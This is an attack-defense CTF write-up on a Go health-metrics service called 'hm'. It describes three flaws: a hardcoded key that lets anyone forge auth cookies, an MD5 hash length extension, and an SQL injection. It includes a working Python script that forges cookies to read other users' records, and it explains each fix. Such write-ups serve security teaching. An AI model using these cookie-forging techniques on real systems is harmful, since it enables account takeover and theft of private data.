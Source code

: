 # Healthmonitor (hm)

First glance at Healthmonitor, called "hm", revealed a simple register/login procedure, hinting at a database. 
Written in go(golang), with access to source code.
After logging in, we could add health metrics (weight, blood pressure, pulse, walking distance and a comment) and list these.
Comments were only visible to the respective users when logged in.
The database showed several users having flags as comments.
Our goal was to read comments from other users from within one active.
While registered and logged in we got some cookies: session, auth (which was obviously a md5 hash) and an id (which was a base64 decoded string "u_XXX", the user_id)

## fixed key

Our go-to (obvious pun intended) was to look at main.go which showed a constant key. And since every team had the same vbox image, every team had to have the same key. This constant key was used for the auth cookie generation:

e.g. the auth-verifier
~~~
func authVerified(auth string, uId string) (bool, error) {
	id := decodeBase64(uId)	//decode uID from cookie -> u_XXX
    res := md5hash(Key, id) //calculate md5hash of the key and the uID
	if res == auth {		//if its equal with the auth value from the cookie return true else false
		return true, nil
	} else {
		return false, errors.New(Unauthorized)
	}
}
~~~

We could see that you only had to know the uID and the key to calculate the auth-cookie. Since every key on every image was the same, we could easily exploit it.
Course of action, accordingly, was:

1. Register a user to get the highest uID
2. Change the uID, calculate the md5hash for the new auth-cookie and send a request to read your health metrics

The best solution was to decrease the uID and submit flags until no valid flags were left.

Quick & Dirty exploit
(python)
~~~
import requests, re, base64, hashlib, random, string, sys

key = "f11ecd5521ddf2614e17e4fb074a86da"

#register new user
randomuser = ''.join([random.choice(string.ascii_letters + string.digits) for n in xrange(16)])
url = "http://" + str(sys.argv[1]) + ":8000"
body = {'Login': randomuser, 'Pass':randomuser}
r = requests.post(url + "/newuser", data=body)
uid = int(re.findall(r'assigned: u_([0-9]+)', r.text)[0])
uidorig = uid
bufferr = "";

while(uid > uidorig - 100): #here you could improve the exploit
	uid = uid - 1
	#calc auth
	md5sum = hashlib.md5(key + 'u_' + str(uid)).hexdigest()
	#uID 
	uidBase64 = base64.b64encode('u_' + str(uid))
	cookies = dict(auth=md5sum, id=uidBase64)
	#get metrics
	r = requests.get(url + "/healthmetrics", cookies=cookies)
	print r.text #our submitter greps the flags
~~~

To fix the flaw we just changed the key and recompiled it. (# go build)

## hash length extension

This was the most obvious flaw and we did not look or think further. But there was more and other teams were probably just as lazy as we were and just changed the key and were still vulnerable to a hash length extension attack. Since auth was calculated via `md5(key, id)`, and the id was user provided we could provide arbitrary data. 

If you're doing a lot of CTFs you are probably familiar with hash extension if not the best thing to start is by reading [this blog post](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) and playing around with [hash_extender](https://github.com/iagox86/hash_extender) 

If you are lazy and don't want to read up here is the short version: Merkel-Damgard Hashes like MD5 and SHA1/SHA2 are vulnerable to hash length extension attacks. This attacks allows you to recalculate hashes that are built like the one above `hash(secret, user-provided-data)`. You could than just append more data and calculate a corresponding hash without knowledge of the secret. 

To make this work there still had to be some features in the code. To exploit the flaw you'd need to change the base64 encoded user id and the auth token. You could only append data to the user id, not change it, but these features were provided. 
The check for the auth cookie is done in getUserId:

~~~
auth := authCookie.Value
id := idCookie.Value
verified, err := authVerified(auth, id)
~~~
and after that verification the id is extracted from the id cookie with the extractUid function. 
~~~
func extractUid(idStr string) string {
	id := decodeBase64(idStr)
	f := strings.FieldsFunc(id, split)
	return f[len(f)-1]
}
~~~
interesting so what does split split?
~~~
func split(c rune) bool {
	return c == ';' || c == ' ' 
}
~~~
so we can just append the new user id after a ; and can trigger a valid authentication for that user. 

The only remaining problem is we do not know the length of the secret which we need to calculate our new auth token, but hash extender can generate multiple tokens at once with varying secret length.

So here is a pseudo code writeup after a POC with burp as we were too lazy to actually automate it with python... 

1. Create new user
2. bruteforce secret length for id - 1
3. check the next users for flags with the now known secret length

To fix this properly you should apply a HMAC instead of `md5(secret+data)` but in this context `md5(secret+data+secret)` would have been enough. 


## SQL injection
But still, there was more. Most database queries used prepared statements except the one that checked if a user name already existed. 

To fix this flaw simply change the query to a prepared statement just like the rest.

## Summary

We didn't expect that may flaws in just one service and only exploited and fixed one. But still this service was our cash cow and we were able to score good points, but the next time we will take a second look and fix and exploit more vulnerabilities. 
